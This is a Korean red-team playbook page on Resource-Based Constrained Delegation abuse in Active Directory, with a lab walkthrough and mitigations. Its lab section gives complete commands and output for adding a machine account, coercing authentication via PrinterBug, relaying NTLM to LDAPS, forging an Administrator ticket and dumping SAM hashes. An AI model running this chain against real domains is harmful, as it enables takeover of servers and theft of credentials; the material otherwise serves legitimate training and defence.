

# Resource-Based Constrained Delegation (RBCD)

Resource-Based Constrained Delegation (이하 RBCD, rbcd)는 타겟 호스트의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 액티브 디렉토리 오브젝트 특성을 조작해 공격자의 머신 계정이 타겟 호스트에 접근할 때 높은 권한의 도메인 유저 (도메인 관리자, 등)을 impersonation 할 수 있게 하는 공격이다.

### 공격 조건&#x20;

* 공격자가 도메인 유저 권한을 가지고 있다&#x20;
* 도메인 내  ms-DS-MachineAccountQuota 가 0 이상이다 (디폴트 값: 10)&#x20;
* 타겟 서버가 강제 인증이 가능한 상태 (WebDav, RPC 기반 강제 인증, 등) 다&#x20;
* 도메인 컨트롤러의 LDAP Signing 이 Required 가 아니다&#x20;

위 공격 조건들이 모두 맞아 떨어질때, 공격자는 RBCD를 이용해 타겟 서버를 장악할 수 있게 된다. 예를 들어 내부망 내에 WebDAV가 활성화되어 있는 서버가 500대 존재한다면, 그 500대를 모두 장악할 수 있다.&#x20;

### 배경 지식&#x20;

ms-DS-AllowedToActOnBehalfOfOtherIdentity 특성은 서버 A가 서버 B에 접근할 때, 다른 유저로 가장 (impersonate) 할 수 있도록 해주는 특성이다. 이는 Kerberos Double Hop 문제를 해결할 때 사용된다. 다음의 문제 시나리오를 생각해보자.&#x20;

```
유저 -> 웹 서버 -> 데이터베이스 서버 
```

유저의 데이터를 관리하는 데이터베이스(디비) 서버가 있고, 그 앞에 프론트엔드 격의 웹 서버가 있다고 가정해보자. 유저는 자신의 데이터를 디비에서 꺼내오고 싶다. 그러려면 웹 서버를 통해야한다. 하지만 웹 서버의 입장에서는 디비로 무작정 가서 "나 웹 서번데, choi@choi.local" 유저의 데이터 내놔" 라고 할 수 없다. 디비 서버 입장에서도 "넌 웹 서번데 너가 왜 choi@choi.local 유저 데이터를 내놓으라 마라야?" 라는 반응을 보일 것이다. 이 문제를 "Double Hop" 문제라고 하고, 이를 해결하기 위해서 커버로스 Constrained Delegation 과 Resource-Based Constrained Delegation이 사용된다.&#x20;

### RBCD (Resource-Based Constrained Delegation)&#x20;

RBCD는 특정 호스트의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정해 해당 호스트에 접근하는 다른 호스트가 도메인 유저를 가장 할 수 있도록 허락해주는 특성이다.&#x20;

위 Double Hop 예시를 들어보자면, 디비 서버의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성을 수정해 "나 (디비 서버)에게 접근하는 호스트들 중, 웹 서버는 도메인 관리자 유저로서 나에게 접근을 허락합니다" 라는 설정을 하는 것이다. 그렇게 되면 웹 서버는 도메인 관리자 유저로서 디비 서버에 접근할 수 있게 된다.&#x20;

RBCD를 악용하기 위해서는 다음 2개 중 하나의 조건이 필요하다&#x20;

1. 타겟 서버에게 쓰기 권한을 가지고 있는 유저/머신 계정을 가지고 있다&#x20;
2. 타겟 서버가 HTTP 기반의 Net-NTLM 인증 트래픽을 보낼 수 있는 강제 인증에 취약한 상태이며, 도메인의 MachineAccountQuota 가 0 이상이고 (디폴트: 10), 도메인 컨트롤러가 LDAP Signing 활성화가 되어있지 않을 때&#x20;

이 페이지에서는 #2번 시나리오에 대해 설명한다.&#x20;

<figure><figcaption></figcaption></figure>

RBCD 공격 순서는 다음과 같다.&#x20;

1. 공격자는 ms-dsMachineAccountQuota 가 0 이상인 도메인에서 도메인 유저 권한으로 도메인에 머신 계정 - fake$@choi.local (fake.choi.local) 을 추가한다.&#x20;
2. 타겟 서버에게 HTTP 기반의 강제 인증을 실행한다. 자주 쓰이는 것은 WebDav 서비스에게 printerbug [ms-rprn.md](../../credential-access/authentication-coercion/ms-rprn.md "mention") 을 사용하되, 강제 인증 도착 주소를 공격자 머신 계정의 DNS 호스트 이름으로 지정하는 것이다.&#x20;
3. 타겟 서버는 공격자 머신 계정의 DNS  호스트 이름으로 HTTP 기반의 Net-NTLM 트래픽을 전송한다.&#x20;
4. 공격자 서버는 이 트래픽을 릴레이 해 도메인 컨트롤러의 LDAP 서비스로 릴레이 공격을 실행한다.&#x20;
5. 릴레이 공격을 통해 공격자 서버는 타겟 서버의 맥락 (context) 로 도메인 컨트롤러에게 가서 "내가 타겟 서버인데, 내 ms-DS-AllowedToActOnBehalfOfOtherIdentity 특성을 바꿔주세요. 나한테 접근하는 호스트들 중에 fake$@choi.local 이라는 머신 계정은 도메인 유저 아무나 가장 (impersonate) 할 수 있도록 설정해주세요" 라고 요청한다. 도메인 컨트롤러는 타겟 서버가 자신의 특성을 바꿔달라고 요청한 것으로 착각할테니 (릴레이 공격이라), 특성을 수정해준다.&#x20;
6. 특성이 수정됐기 때문에 공격자는 이제 `fake$@choi.local` 머신 계정으로 타겟 서버에 접근할 때 아무 도메인 유저나 가장 (impersonate)할 수 있게 되었다. 이제 타겟 서버로 도메인 관리자로 가장한채 접근해 타겟 서버를 장악한다.&#x20;

### 실습&#x20;

꽤나 복잡한 공격이기 때문에 몇 가지 조건들을 확인한다.&#x20;

1. 도메인 유저 권한을 가지고 있어야한다.
2. 도메인의 ms-DS-MachineAccountQuota 가 0 이상인지 확인한다&#x20;
   1. `cme ldap <dc> -u <u> -p <p> -M maq`
3. 도메인 컨트롤러의 LDAP Signing 이 Not Required 상태인지 확인한다&#x20;
   1. `cme ldap <dc> -u <u> -p <p> -M ldap-checker`
4. 타겟 서버가 WebDAV 서비스를 실행하고 있는지 확인한다&#x20;
   1. `cme smb <target> -u <u> -p <p> -M webdav`

모든 조건들이 확인됐다면 공격을 시작한다.&#x20;

1. 도메인 내 공격자 머신 계정을 생성한다.&#x20;

```
└─# impacket-addcomputer choi.local/low:'Password123!' -dc-ip 192.168.40.150
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
                                                                                                   
[*] Successfully added machine account DESKTOP-86TFUIC2$ with password ipIVa07EaG0gtxAQjUUNctIlBzesUPbI.
```

2. 공격자 머신 계정의 DNS 레코드를 LDAP을 통해 추가한다. 아래 명령어는 아까 생성한 `DESKTOP-8GTFUIC2$` 머신 계정의 DNS 레코드를 현재 공격자 컴퓨터인 `192.168.40.132` 에, 레코드 이름은 `redteamplaybook.choi.local` 로 추가했다.&#x20;

```
└─# python3 dnstool.py -u choi.local\\'DESKTOP-86TFUIC2$' -p 'ipIVa07EaG0gtxAQjUUNctIlBzesUPbI' -a add -r redteamplaybook -d 192.168.40.132 ldaps://192.168.40.150                                    

[-] Connecting to host...                                                                                                                                                                             
[-] Binding to host                                                                                                                                                                                   
[+] Bind OK                                                                                        
[-] Adding new record                            
[+] LDAP operation completed successfully
```

이제 DNS 레코드를 확인해보면 redteamplaybook.choi.local 은 현재 공격자 머신의 IP 주소인 192.168.40.132 로 resolve가 된다.&#x20;

```
└─# host redteamplaybook.choi.local
redteamplaybook.choi.local has address 192.168.40.132
```

3. 타겟 서버에게 강제 인증 공격을 실행한다. 강제 인증 자체는 MS-RPRN을 악용하는 Printerbug을 사용한다. 타겟 서버에게 "redteamplaybook@80/helloworld 라는 곳으로 가세요" 라고 얘기를 해주는데, 이는 사실상 `http://redteamplaybook.choi.local:80/helloworld` 와 같은 개념이다. 이 URL은 WebDAV 서비스가 Net-NTLM 트래픽을 사용해 방문할 것이다.&#x20;

```
└─# python3 printerbug.py choi.local/low:'Password123!'@192.168.40.151 redteamplaybook@80/helloworld
[*] Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Attempting to trigger authentication via rprn RPC at 192.168.40.151
[*] Bind OK
[*] Got handle
RPRN SessionError: code: 0x6ba - RPC_S_SERVER_UNAVAILABLE - The RPC server is unavailable.
[*] Triggered RPC backconnect, this may or may not have worked
```

4. 타겟 서버의 WebDAV 서비스가 공격자 머신인 `http://redteamplaybook.choi.local:80/helloworld` 에 방문했다. 이 Net-NTLM 트래픽을 도메인 컨트롤러에게 릴레이한다. 이때, `--delegate-access` 플래그와 `--escalate-user <생성한-공격자-머신-계정>` 을 지정해 공격자 머신 계정이 타겟 서버의 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성에 들어갈 수 있도록 만든다.&#x20;

```
└─# ntlmrelayx.py -t ldaps://dc01.choi.local -wh 192.168.40.151 --delegate-access --escalate-user 'DESKTOP-86TFUIC2$'

[*] HTTPD(80): Connection from 192.168.40.151 controlled, attacking target ldaps://dc01.choi.local
[*] HTTPD(80): Authenticating against ldaps://dc01.choi.local as CHOI/WKSTN01$ SUCCEED
[*] Delegation rights modified succesfully!
[*] DESKTOP-86TFUIC2$ can now impersonate users on WKSTN01$ via S4U2Proxy
```

5. 이제 공격자의 머신 계정 `DESKTOP-86TFUIC2$` 은 타겟 서버에 접근할 때 아무런 도메인 유저로서 가장 (impersonate) 할 수 있게 됐다. 타겟 서버의 CIFS 서비스로 접근하는 커버로스 서비스티켓을 발급받을 때, 도메인 관리자인 `Administrator@choi.local` 유저로 가장 (impersonate) 한다.&#x20;

```
└─# impacket-getST choi.local/'DESKTOP-86TFUIC2$':'ipIVa07EaG0gtxAQjUUNctIlBzesUPbI' -spn cifs/wkstn01.choi.local -impersonate Administrator
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

6. 발급 받은 서비스티켓은 "도메인 관리자로서 타겟 서버의 CIFS 서비스에 접근 할 수 있는" 서비스티켓이다. 이 티켓을 활용해 타겟 서버를 장악한 뒤, SAM 데이터베이스를 덤프한다.&#x20;

```
└─# cme smb 192.168.40.151 --use-kcache --sam 

SMB         192.168.40.151  445    WKSTN01          [*] Windows 10.0 Build 19041 x64 (name:WKSTN01) (domain:choi.local) (signing:False) (SMBv1:False)
SMB         192.168.40.151  445    WKSTN01          [+] choi.local\Administrator from ccache (Pwn3d!)
SMB         192.168.40.151  445    WKSTN01          [+] Dumping SAM hashes
SMB         192.168.40.151  445    WKSTN01          Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.151  445    WKSTN01          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[ ... ] 
```


### 대응 방안&#x20;

RBCD는 액티브 디렉토리의 커버로스나 `ms-DS-AllowedToActOnBehalfOfOtherIdentity` 특성의 취약점을 익스플로잇 하는 공격이 아니다. 그저 커버로스 Delegation의 개념과 액티브 디렉토리의 오브젝트 특성을 공격자의 관점에서 악용하는 공격일 뿐이다.&#x20;

따라서 대응 방안은 LDAP NTLM 릴레이 공격시 릴레이와 릴레이를 통한 특성 변경이 불가능 하도록 LDAP Signing 을 활성화 시키는 것 뿐이다. 다음의 GPO를 설정해 LDAP Signing 을 Required 로 설정한다.&#x20;

* `(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies >  Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정&#x20;

<figure><figcaption></figcaption></figure>

그 외에는 WebDAV 서비스를 사용하지 않는 호스트들의 WebClient 서비스를 비활성화 하는 방법이 있다. 완벽히 RBCD를 막을 순 없지만, 공격자의 입장에서 공격이 좀 더 까다로워진다. 다음의 파워쉘 명령어를 사용하거나 명령어를 GPO화 시켜 도메인 호스트들에게 적용한다.&#x20;

* ```
  Remove-WindowsFeature Web-Dav-Publishing
  ```
* `stop-service -name WebClient`


### 레퍼런스






